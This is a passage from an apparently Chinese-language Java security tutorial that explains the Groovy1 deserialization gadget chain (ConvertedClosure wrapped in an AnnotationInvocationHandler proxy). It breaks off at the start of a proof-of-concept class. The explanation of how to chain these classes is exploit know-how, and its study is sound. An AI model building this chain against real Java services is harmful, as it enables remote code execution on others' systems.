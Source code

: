 ```java
            throw ite.getTargetException();
        }
    }
    	// 这是一个抽象方法，具体的方法实现在实现类中
        public abstract Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable;    
}
// ConvertedClosure是ConversionHandler的实现类，其实最重要的就是实现了invokeCustom方法
// 这里也继承了Serializable接口，但是因为没有重写readObject方法，所以也是无法攻击的
public class ConvertedClosure extends ConversionHandler implements Serializable {
    private String methodName;
    private static final long serialVersionUID = 1162833713450835227L;
	// 构造函数中处理了两个参数分别是
    public ConvertedClosure(Closure closure, String method) {
        super(closure);
        this.methodName = method;
    }
    // 如果不传递methodName的情况，methodName==null
    // 那么invokeCustom方法在调用时会直接执行
    public ConvertedClosure(Closure closure) {
        this(closure,null);
    }
    
    // 这个方法会被ConversionHandler中的invoke实现方法中调用
    // 如果你觉得太绕的话，其实就把invokeCustom当成是动态代理中的invoke方法
    public Object invokeCustom(Object proxy, Method method, Object[] args)
    throws Throwable {
        if (methodName!=null && !methodName.equals(method.getName())) return null;
        // 获取到一开始传递的Closure对象，然后调用class方法，并传递参数(args)
        return ((Closure) getDelegate()).call(args);
    }

}
```

### 封装动态代理

其实看完`ConvertedClosure`得到的结论就是，需要一个可以调用动态代理invoke方法的地方，那思路也很简单了。就是为`ConvertedClosure`再套一层动态代理(`sun.reflect.annotation.AnnotationInvocationHandler`)，代理一个Map，当调用Map中的方法时，则可以触发`ConvertedClosure`中的invoke方法，然后命中`invokeCustom`方法。

最终效果就是就是调用`((Closure) getDelegate()).call(args);`

如果你对动态代理的概念不太理解，可以参考我以前写的文章: [静态代理 & 动态代理](../../A%20-%20JAVA基础/JAVA动态代理&静态代理/main.md)

## POC

```java
import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;

public class Groovy1 {

    private static final String serialFileName = "groovy1.ser";
    public static void main(String[] args) throws Exception {
```
